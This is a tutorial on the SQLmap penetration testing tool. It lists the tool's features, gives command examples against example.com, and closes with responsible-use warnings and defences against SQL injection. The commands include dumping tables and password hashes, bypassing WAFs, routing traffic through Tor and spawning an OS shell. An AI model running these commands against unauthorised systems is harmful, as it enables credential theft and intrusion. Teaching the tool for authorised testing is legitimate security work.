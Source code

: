 ## SQLmap
SQLmap is **an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications**. It is a powerful tool for both attackers and security professionals, capable of identifying vulnerabilities, retrieving data, and even executing commands on compromised databases.

## 1. Features of SQLmap
1. **Automated** SQL Injection Detection
  - Identifies SQL injection vulnerabilities by testing various payloads on web application parameters.
2. **Database** Fingerprinting
  - Identifies the type, version, and features of the database management system (DBMS).
3. **Data Extraction**
  - Retrieves database schema, table contents, and credentials.
4. **Privilege Escalation**
  - Explores database user privileges and escalates access if possible.
5. **Operating System Interaction**
  - Executes OS-level commands when databases support extended functionality.
6. Support for **Multiple Injection Types**
  - Blind SQLi
  - Boolean-based SQLi
  - Time-based SQLi
  - Union-based SQLi
  - Error-based SQLi
  - Stacked queries and out-of-band (OOB) injections.
7. Database Support
  - Works with popular DBMSs, including:
    - MySQL
    - PostgreSQL
    - Oracle
    - Microsoft SQL Server
    - SQLite
    - MariaDB
8. **Tor and Proxy Support**
  - Routes traffic through Tor or proxies for anonymity.


## 2. How SQLmap Works
SQLmap works by sending crafted SQL payloads to the target application and analyzing the responses to identify vulnerabilities and extract data.

### Typical Workflow
1. **Identify the target URL or form**.
2. **Configure** SQLmap with the target.
3. SQLmap **sends various payloads** to test for vulnerabilities.
4. Upon finding a vulnerability, SQLmap **exploits it to extract data or perform additional actions**.


## 3. Common SQLmap Commands

### a. Basic Usage
```
sqlmap -u "http://example.com/page?id=1"
```
- Tests the id parameter in the URL for SQL injection.

### b. Enumerate Databases
```
sqlmap -u "http://example.com/page?id=1" --dbs
```
- Lists all databases on the target.

### c. Enumerate Tables
```
sqlmap -u "http://example.com/page?id=1" -D database_name --tables
```
- Lists all tables in the specified database.

### d. Dump Table Data
```
sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --dump
```
- Extracts all data from the specified table.

### e. Identify Database User
```
sqlmap -u "http://example.com/page?id=1" --current-user
```
- Retrieves the current database user.

### f. Test All Parameters
```
sqlmap -u "http://example.com/page?id=1" --forms
```
- Scans all parameters in forms on the page.

### g. Bypass WAFs
```
sqlmap -u "http://example.com/page?id=1" --tamper=charencode
```
- Uses tamper scripts to bypass Web Application Firewalls (WAFs).

### h. Use Tor for Anonymity
```
sqlmap -u "http://example.com/page?id=1" --tor
```
- Routes traffic through the Tor network.


## 4. Example Scenarios

### a. Dumping Database Credentials
```
sqlmap -u "http://example.com/page?id=1" --passwords
```
- Extracts hashed passwords stored in the database.

### b. Discovering Privilege Levels
```
sqlmap -u "http://example.com/page?id=1" --privileges
```
- Identifies privileges of the current database user.

### c. Running OS Commands
```
sqlmap -u "http://example.com/page?id=1" --os-shell
```
- Spawns a shell to execute operating system commands (if supported).


## 5. Risks and Responsible Use

### SQLmap is a penetration testing tool and should be used responsibly
1. Only Test Systems **You Own or Have Permission** To Test
  - Unauthorized use can lead to legal consequences.
2. **Do Not Use on Production** Systems Without Approval
  - SQLmap can send high volumes of requests, potentially causing performance degradation.


## 6. Mitigation Against SQLmap Attacks
1. **Input Validation and Sanitization**
  - Validate and sanitize all user inputs to prevent SQL injection.
2. **Parameterized Queries**
  - Use prepared statements or stored procedures instead of dynamic SQL.
3. **Web Application Firewalls (WAFs)**
  - Block common SQL injection payloads and tamper scripts.
4. **Least Privilege Principle**
  - Restrict database user permissions to the minimum required.
5. **Regular Security Audits**
  - Use tools like SQLmap in authorized tests to identify and patch vulnerabilities.

## 7. Summary

| Feature | Details |
| ------- | ------- |
| Purpose | Automate detection and exploitation of SQL injection vulnerabilities. |
| Key Features | Data extraction, privilege escalation, OS interaction, bypass WAFs. |
| Common Commands | --dbs (list databases), --tables (list tables), --dump (extract data). |
| Supported DBMS | MySQL, PostgreSQL, SQLite, MSSQL, Oracle, MariaDB. |
| Mitigation | Input validation, parameterized queries, WAFs, least privilege principle. |


**SQLmap is an essential tool for penetration testers, offering powerful features for detecting and exploiting SQL injection vulnerabilities**. While it streamlines vulnerability testing, its **use must be ethical and authorized** to avoid legal and operational risks. Organizations can defend against SQLmap and similar tools by adopting robust security measures like **input validation**, **prepared statements**, and **regular testing**.